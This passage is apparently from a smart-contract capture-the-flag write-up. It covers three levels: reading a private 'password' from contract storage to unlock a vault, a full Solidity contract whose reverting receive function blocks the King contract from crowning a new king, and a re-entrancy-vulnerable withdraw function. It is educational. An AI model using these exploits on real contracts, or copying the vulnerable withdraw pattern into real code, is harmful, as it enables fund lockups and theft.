We'll use the console to read the password and unlock the contract
```
>> let params = [instance, "0x01", "latest"]
>> let password = await ethereum.request({ method: 'eth_getStorageAt', params })
>> await contract.unlock(password)
```

And that clears the level!

# King
The key to this exploit is the unchecked transfer
```
king.transfer(msg.value)
```
It's a **bad** idea to execute an unchecked transfer to an address you don't
control. The receiver could do anything! In this case, if we construct a contract
that reverts on transfer we can prevent the `King` contract from updating the
king.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./King.sol";

contract KingExploit {
    address payable public immutable king;
    constructor (address payable _king) public {
        king = _king;
    }

    function becomeKing() public payable {
        (bool sent, bytes memory data) = king.call{value: msg.value}("");
        require(sent, "Failed to send Ether.");
    }

    receive() external payable {
        revert();
    }
}
```

And that clears the level!

# Re-entrancy
A contract can be vulnerable to a re-entrancy attack when it makes external
calls **before** updating its state. For example, consider a simple withdrawal
function:

```
function withdraw(uint256 amount) external {
    require(balances[msg.sender] >= amount, "Insufficient funds");
    msg.sender.call{value: amount}("");
    balances[msg.sender] -= amount;
}
```
